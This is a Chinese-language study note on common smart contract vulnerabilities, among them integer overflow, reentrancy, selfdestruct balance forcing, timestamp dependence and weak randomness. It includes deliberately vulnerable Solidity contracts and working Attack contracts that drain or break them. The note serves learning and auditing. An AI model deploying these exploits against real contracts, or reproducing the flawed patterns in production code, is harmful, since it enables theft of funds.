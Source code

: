 ## 智能合约常见漏洞审计
 **整数溢出**
 在solidity0.8.0开始，加入了自动检查溢出功能，此版本之后的合约,不必担心这个漏洞。
```Solidity
  function batchTransfer(address[] _receivers, uint256 _value) public whenNotPaused returns (bool) {
    uint cnt = _receivers.length;
    uint256 amount = uint256(cnt) * _value;
    require(cnt > 0 && cnt <= 20);
    require(_value > 0 && balances[msg.sender] >= amount);

    balances[msg.sender] = balances[msg.sender].sub(amount);
    for (uint i = 0; i < cnt; i++) {
        balances[_receivers[i]] = balances[_receivers[i]].add(_value);
        Transfer(msg.sender, _receivers[i], _value);
    }
    return true;
  }
```
batchTransfer 函数，它用于给地址列表中的所有地址都转账 _value,
但是没有检查 amount 是否溢出，这导致每个人的转账金额 _value 很大，
但是总共的 amount 却接近0.
所以要引入:library SafeMath {} 来规避掉溢出问题.

**重入攻击**
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
当攻击者调用储币合约中的 withdraw 函数时，withdraw 使用 call 底层调用发送以太币，
此时接收者是攻击者的 fallback 函数，因此如果在 fallback 函数中重新调用 withdraw 函数，
并且没有检查机制，就会发生重入攻击。

**payable函数导致合约余额更新**
当函数执行时，合约会先读取到交易对象，因此合约的余额会变成原来的余额+msg.value,
某些合约可能会未注意到余额的变化而产生漏洞。
**短地址攻击**
因为交易中data参数是原始的调用数据经过ABI编码的数据，ABI规则中常常会为了凑够32字节，在对原始参数编码时进行符号扩充。因此，如果输入的地址太短，那么编码时不会检查，就会直接补零，导致接收者改变。
**挖矿属性依赖**
合约中有部分内置变量，这些变量会受到矿工的影响，因此不应该把它们当作特定的判断条件。
```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;
contract Roulette {
    uint public pastBlockTime;
    fallback() external payable {
        require(msg.value == 10 ether);
        require(block.timestamp != pastBlockTime);
        pastBlockTime = block.timestamp;
        if(block.timestamp % 15 == 0){//依赖了区块时间戳
        payable(msg.sender).transfer(address(this).balance);
        }   
    }
}
```
**合约余额依赖**
selfdestruct函数是内置的强制执行的函数，因此即使合约没有可接受以太币的方法，
其他人依然可以通过强制执行selfdestruct函数改变合约余额，所以要仔细检查是否将合约余额作为判断标准。
例如，下面的合约，规定只有恰好7 ether的才能胜出，但是攻击者可以通过selfdestruct函数让没有人能够达到 7 ether.
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract EtherGame {
    uint public targetAmount = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint balance = address(this).balance;
        require(balance <= targetAmount, "Game is over");//只有合约余额达到 7 ether 才能成功

        if (balance == targetAmount) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent, ) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}

```
**悬赏白帽子处理黑客潜规则**
**随机数攻击**
针对智能合约生成算法进行攻击，预测生成结果。目前区块链上很多合约都是采用的链上信息，
如区块时间戳，未来区块哈希等。作为游戏合约的随机数源，也称种子。使用这种种子生成的随机数
被称为伪随机数。它不是真的随机数，存在被预测的可能。当使用可被预测的种子生成随机数的时候，
一旦生成算法被攻击者猜到或通过逆向方式拿到攻击者就可以实现预测。
由于区块链上的数据对所有人都公开透明，完全可以提前拿到数据，并计算结果。做法就是，创建一个攻击合约
attack，这个合约中先预测结果，再决定是否调用其它函数。由于两个合约再同一个区块中被运行，也就是说它们拿到的
区块难度值和时间戳相同，所以攻击者有能力先预测结果在调用。         




